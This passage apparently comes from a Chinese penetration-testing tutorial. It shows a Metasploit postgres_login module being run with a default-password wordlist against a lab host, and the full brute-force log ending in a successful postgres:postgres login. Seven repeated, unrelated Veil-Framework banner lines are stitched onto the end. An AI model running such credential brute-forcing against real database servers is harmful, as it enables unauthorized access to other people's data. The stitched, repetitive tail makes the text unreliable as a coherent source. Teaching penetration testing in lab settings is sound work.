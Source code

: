 ```
msf auxiliary(postgres_login) > set pass_file /usr/share/metasploit- framework/data/wordlists/ postgres_default_pass.txt
pass_file => /usr/share/metasploit-framework/data/wordlists/ postgres_default_pass.txt 
```

（8）运行渗透攻击。执行命令如下所示：

```
msf auxiliary(postgres_login) > exploit
 [*] 192.168.41.142:5432 Postgres - [01/21] - Trying username:'postgres' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'postgres':"
[-] 192.168.41.142:5432 Postgres - [01/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [02/21] - Trying username:" with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: ":"
[-] 192.168.41.142:5432 Postgres - [02/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [03/21] - Trying username:'scott' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':"
[-] 192.168.41.142:5432 Postgres - [03/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [04/21] - Trying username:'admin' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':"
[-] 192.168.41.142:5432 Postgres - [04/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [05/21] - Trying username:'postgres' with password:'postgres' on database 'template1'
[+] 192.168.41.142:5432 Postgres - Logged in to 'template1' with 'postgres':'postgres'
[+] 192.168.41.142:5432 Postgres - Success: postgres:postgres (Database 'template1' succeeded.)
[*] 192.168.41.142:5432 Postgres - Disconnected
[*] 192.168.41.142:5432 Postgres - [06/21] - Trying username:'scott' with password:'scott' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':'scott'
[-] 192.168.41.142:5432 Postgres - [06/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [07/21] - Trying username:'admin' with password:'admin' on database 'template1'
……
 [-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':'admin'
[-] 192.168.41.142:5432 Postgres - [16/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [17/21] - Trying username:'admin' with password:'tiger' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':'tiger'
[-] 192.168.41.142:5432 Postgres - [17/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [18/21] - Trying username:'admin' with password:'postgres' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':'postgres'
[-] 192.168.41.142:5432 Postgres - [18/21] - Username/Password failed.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```

以上输出的信息是 PostgreSQL 渗透攻击的一个过程。测试到 PostgreSQL 数据库服务的用户名和密码分别是 Postgres 和 Postgres。


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework